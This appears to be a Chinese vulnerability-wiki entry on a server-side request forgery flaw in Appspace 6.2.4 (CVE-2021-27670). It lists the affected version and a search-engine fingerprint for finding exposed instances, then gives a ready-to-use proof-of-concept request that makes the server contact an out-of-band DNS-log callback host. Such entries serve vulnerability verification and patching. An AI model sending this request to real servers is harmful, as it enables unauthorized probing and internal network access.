 # Appspace jsonprequest SSRF漏洞 CVE-2021-27670

## 漏洞描述

Appspace 6.2.4存在漏洞，允许通过api/v1/core/proxy/jsonprequest接口来进行服务端请求伪造，危害系统安全。

## 漏洞影响

<a-checkbox checked>Appspace 6.2.4</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Sign-in-to-Appspace-Core"</a-checkbox></br>

## 漏洞复现

登录页面为

![img](../../../.vuepress/public/img/1630488521981-cac80156-754a-4388-9f0e-f1b32a25bdca.png)

验证POC

```python
/api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=http://lo2z02.dnslog.cn
```

![img](../../../.vuepress/public/img/1630488586297-b2ee6e6c-6739-494c-ad7f-39eeb43a486e.png)